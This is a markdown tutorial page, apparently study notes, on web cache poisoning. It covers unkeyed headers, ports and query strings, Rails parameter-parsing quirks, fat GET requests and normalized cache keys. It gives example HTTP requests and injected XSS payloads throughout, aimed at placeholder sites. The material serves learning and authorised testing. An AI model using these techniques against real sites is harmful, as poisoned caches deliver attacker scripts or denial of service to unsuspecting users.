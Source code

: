 ```yaml
---
title: "Web cache poisoning"
weight: 26
---
```


# Web cache poisoning

More info about web cache: [Web cache](/web/web-security/web-cache/)

Two phases:

1. Find a way to trigger a response that unintentionally includes a dangerous payload.
2. Ensure the response is cached and served to the intended victims after success.

---

## Exploiting cache design flaws

**Web cache poisoning to deliver XSS**

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` is unkeyed. Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

{{< hint style=notes >}}
**Note**: try also multiple headers

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
{{< /hint >}}

### Exploiting responses that expose too much information

**Cache-control directives**

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

**Vary header**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. For example, it is commonly used to specify that the `User-Agent` header is keyed. If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

---

## Exploiting cache implementation flaws

The methodology involves the following steps:

1. Identify a suitable cache oracle
   * A cache oracle is a cacheable page or endpoint that provides feedback on whether a response was cached or served directly from the server.
2. Identify and evaluate unkeyed inputs
   * Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.
3. Identify an exploitable gadget
   * These gadgets will often be classic client-side vulnerabilities, such as reflected XSS and open redirects.

{{< hint style=tips >}}
**Tip**: use Param Miner extension to identify unkeyed inputs (Guess headers)
{{< /hint >}}

### Unkeyed port

In this way you can:

* Enable a denial-of-service attack by adding an arbitrary port, redirecting users to a non-functional port.&#x20;
* Enable XSS payload injection.

### Unkeyed query string

Like the Host header, the request line is usually keyed, but one of the most common cache-key transformations is the exclusion of the entire query string.

**Detecting an unkeyed query string**

You can use alternative cache busters, like adding them to a keyed header that doesn’t affect the app’s behavior.

```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```

### Unkeyed query parameters

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements. UTM parameters like `utm_content`.

#### Detection

First time

```http
GET /?first=test1&utm_content=a HTTP/2

HTTP/2 200 OK
X-Cache: miss
```

Second time

```http
GET /?first=test1&utm_content=b HTTP/2

HTTP/2 200 OK
X-Cache: hit
```

{{< hint style=tips >}}
**Tip**: use Param Miner extension to identify unkeyed inputs.
{{< /hint >}}

### Exploiting parameter parsing quirks

This happen when back-end identifies distinct parameters that the cache does not. The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters

```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```

As the names suggest, `keyed_param` is included in the cache key, but `excluded_param` is not. Many caches will only interpret this as two parameters, delimited by the ampersand:

```sh
1.    keyed_param=abc
2.    excluded_param=123;keyed_param=bad-stuff-here
```

Once the parsing algorithm removes the `excluded_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:

```sh
1.    keyed_param=abc
2.    excluded_param=123
3.    keyed_param=bad-stuff-here
```

But now there is a duplicate `keyed_param`. This is where the second quirk comes into play. If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence. The end result is that the cache key contains an innocent, expected parameter value, allowing the cached response to be served as normal to other users. On the back-end, however, the same parameter has a completely different value, which is our injected payload. It is this second value that will be passed into the gadget and reflected in the poisoned response.

### Exploiting fat GET support

Although this scenario is pretty rare, you can sometimes simply add a body to a `GET` request to create a "fat" `GET` request. In this case you can "overwrite" the param value

```http
GET /?param=innocent HTTP/1.1
[…]

param=bad-stuff-here
```

### Normalized cache keys

Problem: when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them.

Example:

You send the follow URL to a victim

```sh
https://vulnerable.website.net/test<script>alert(1)</script>
```

His browser send the following request

```http
GET /test%3Cscript%3Ealert(1)%3C/script%3E HTTP/2
Host: vulnerable.website.net
[...]


HTTP/2 404 Not Found
[...]

<p>Not Found: /test<script>alert(1)</script></p>
```

So, normally this XSS is unexploitable.

**Exploitation with normalized cache keys**

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:

```http
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```

When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.
